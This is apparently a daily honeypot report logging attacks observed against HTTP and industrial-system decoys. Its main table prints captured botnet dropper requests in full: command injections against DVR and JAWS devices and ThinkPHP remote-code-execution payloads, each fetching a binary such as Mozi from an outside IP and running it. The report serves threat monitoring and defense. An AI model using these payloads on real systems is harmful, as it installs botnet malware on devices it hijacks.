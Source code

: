 ```yaml
---
title: "Report: 2025-03-24 "
date: 2025-03-24
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-24
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| FR               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                       |
|:----------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 185.40.4.51     | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F42.112.26.36%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                     |
| 188.124.135.200 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://188.124.135.200:55440/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                               |
| 141.98.11.94    | GET /shell?cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/89.144.32.113/jaws.sh;chmod+777+jaws.sh;./jaws.sh HTTP/1.1                                                                                                                                  |
| 87.121.84.41    | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20-rf%20parm7%3B%20wget%20http%3A%2F%2F193.32.162.27%2Fbins%2Fparm7%3B%20chmod%20777%20parm7%3B%20.%2Fparm7%20sex HTTP/1.1                                  |
| 123.157.136.106 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                 |
| 60.249.212.60   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.84.71.195/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1       |
| 185.196.220.57  | GET /shell?cd+/tmp;rm+-rf+x86;nohup+wget+http:/\x5C/87.121.84.145/bins/x86;chmod+777+x86;./x86;ulimit+-n+99999 HTTP/1.1                                                                                                                       |
| 200.81.185.179  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://157.230.218.54/bins/nine.x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1 |
| 87.121.84.195   | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20-rf%20parm7%3B%20wget%20http%3A%2F%2F193.32.162.27%2Fbins%2Fparm7%3B%20chmod%20777%20parm7%3B%20.%2Fparm7%20sex HTTP/1.1                                  |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

